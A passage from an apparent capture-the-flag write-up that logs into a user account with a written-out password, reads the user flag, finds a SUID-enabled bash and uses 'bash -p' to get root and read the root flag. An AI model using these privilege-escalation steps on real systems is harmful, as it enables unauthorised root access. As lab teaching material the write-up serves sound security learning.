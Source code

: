 ```
su henry
Password: Q3c1AqGHtoI0aXAYFH         	 

bash-5.1$ whoami
whoami
henry
```

We are now in ```henry```’s user account, and find the first flag ```user.txt```!

```
cd ~
bash-5.1$ ls
ls
dependencies.yml  test.rb  user.txt
bash-5.1$ cat user.txt
cat user.txt
4ac161ef71b66aa6ea3e6a90102ee693
bash-5.1$
```

### Privilege Escalation

Now for privilege escalation. We search for any SUID files within the system.

##### Command:
>find / -perm 6000

```
/usr/local/share/fonts
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/bash
/usr/bin/su
/usr/bin/wall
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chage
/usr/bin/mount
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
```
Apart from the usual SUID files we expect to find, we see that ```bash``` has the SUID bit enabled. After consulting [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) we can simply run ```bash -p``` to exploit this misconfiguration.

```
bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c067311b8ba45659f38cace8b536e0ae
```
